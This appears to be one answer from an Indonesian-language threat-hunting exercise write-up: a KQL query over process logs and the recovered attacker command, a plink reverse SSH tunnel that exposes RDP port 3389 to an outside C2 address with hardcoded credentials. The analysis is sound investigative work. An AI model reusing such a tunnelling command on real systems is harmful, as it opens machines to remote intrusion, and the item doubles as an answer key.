

# Q9

**Pertanyaan:** What IP address was used with plink on Ronnie's machine?

**Cara penyelesaian:**
```kql
ProcessEvents
| where hostname == "A37A-DESKTOP"
| where timestamp >= todatetime("2024-01-10 08:55:51+00:00")
```


Command lengkapnya: `plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 168.57.191.100`

⚠️ Username (`$had0w`) & password (`thruthW!llS3tUfree`) yang dipake plink **sama persis** kayak di mesin Sonia (Section 3) — cuma IP C2-nya yang beda tiap korban. Ini konfirmasi kuat satu aktor/toolkit yang sama, tapi infrastruktur C2 (IP) di-rotate per target.

**Jawaban:** 168.57.191.100
